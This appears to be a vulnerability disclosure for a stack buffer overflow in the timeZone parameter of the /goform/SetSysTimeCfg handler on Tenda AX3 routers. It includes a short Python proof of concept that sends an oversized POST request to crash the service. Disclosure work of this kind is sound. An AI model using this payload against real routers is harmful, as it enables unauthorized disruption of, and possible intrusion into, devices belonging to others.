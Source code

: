 # Tenda Router AX3 Vulnerability

This vulnerability lies in the `/goform/SetSysTimeCfg` page which influences the lastest version of Tenda Router AX3. ([V16.03.12.10_CN](https://www.tenda.com.cn/download/detail-3238.html))

# Vulnerability description

There is a stack buffer overflow vulnerability in the `fromSetSysTime` function.

The `v5` variable is directly retrieved from the http request parameter `timeZone`.

Then `v5` will be splice to stack by function sscanf without any security check,which causes stack overflow.

![image-20220118220017987](1.png)

So by POSTing the page `/goform/SetSysTimeCfg` with proper `timeZone`, the attacker can easily perform a **Remote Code Execution** with carefully crafted overflow data.

# POC

```python
import requests
from pwn import *

url = "http://192.168.0.1/goform/SetSysTimeCfg"

timeZone = "a" * 1024

r = requests.post(url, data={'timeZone': timeZone})
print(r.content)
```

# Timeline

- 2022.01.18 report to CVE & CNVD